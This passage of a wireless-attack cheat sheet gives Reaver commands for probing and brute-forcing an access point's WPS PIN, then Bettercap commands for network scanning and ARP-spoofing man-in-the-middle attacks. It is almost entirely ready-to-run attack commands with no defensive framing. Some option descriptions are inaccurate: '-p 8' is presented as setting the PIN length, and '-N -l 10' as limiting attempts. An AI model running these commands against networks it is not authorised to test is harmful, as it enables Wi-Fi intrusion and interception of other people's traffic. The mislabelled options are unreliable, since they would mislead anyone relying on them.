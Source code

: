 - **Test if the AP supports WPS:**
  ```bash
  sudo reaver -i wlan0mon -b <BSSID> -vv -t 30
  ```
  (`-t` sets the timeout for the test.)

#### **2. WPS PIN Recovery (Normal Mode)**
- **Start brute-forcing the WPS PIN:**
  ```bash
  sudo reaver -i wlan0mon -b <BSSID> -c <Channel> -vv
  ```

#### **3. Advanced Options**
- **Specify the PIN length (default is 8):**
  ```bash
  sudo reaver -i wlan0mon -b <BSSID> -c <Channel> -vv -p 8
  ```

- **Limit the number of attempts:**
  ```bash
  sudo reaver -i wlan0mon -b <BSSID> -vv -N -l 10
  ```

---

### **Bettercap:**
Bettercap is a powerful network attack and monitoring tool. It is mainly used for MITM (Man-in-the-Middle) attacks, sniffing, and packet manipulation.

#### **1. Starting Bettercap**
- **Start Bettercap with the default interface:**
  ```bash
  sudo bettercap -iface wlan0
  ```

#### **2. Network Scanning**
- **Scan the local network for devices:**
  ```bash
  net.probe on
  ```

- **List all discovered devices:**
  ```bash
  net.show
  ```

#### **3. Man-in-the-Middle Attacks**
- **Start ARP spoofing (MITM attack):**
  ```bash
  arp.spoof on
  ```

- **Spoof a specific IP address (Targeting a specific device):**
  ```bash
  arp.spoof 192.168.1.101
  ```
